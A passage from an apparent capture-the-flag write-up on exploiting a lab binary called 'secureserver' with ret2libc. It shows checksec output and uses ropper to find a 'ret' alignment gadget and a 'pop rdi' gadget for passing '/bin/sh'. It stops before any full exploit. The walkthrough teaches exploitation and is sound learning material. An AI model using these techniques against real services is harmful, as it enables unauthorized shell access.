 `checksec`:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000
```

* <mark style="color:yellow;">NX</mark> is <mark style="color:yellow;">ENABLED</mark>
* This makes it a fantastic target for the **ret2libc** exploitation technique

### Finding `ret` ROP Gadgets with `ropper`

I kept running into <mark style="color:yellow;">stack-alignment issues</mark> presumably because I am on Ubuntu, which is known for these types of issues pertaining to binex. So, I had to add a ret ROP gadget in order for my exploit to work.

With that said, you may not need this.

```
ropper --file secureserver --search "ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ret

[INFO] File: secureserver
0x0000000000401016: ret;
```

To fix our issue, I am simply using a <mark style="color:yellow;">return gadget</mark>.

You can see that the address, <mark style="color:yellow;">`0x401016`</mark> is what we need to <mark style="color:yellow;">return</mark>.

### Finding `POP RDI` ROP Gadgets with `ropper`

```
ropper --file secureserver --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: secureserver
0x000000000040120b: pop rdi; ret;
```

You can see that the address, <mark style="color:yellow;">`0x40120b`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">is what we will need to</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`POP`</mark> <mark style="color:yellow;">`"/bin/sh"`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">into the RDI register as it is our first parameter/argument</mark>.

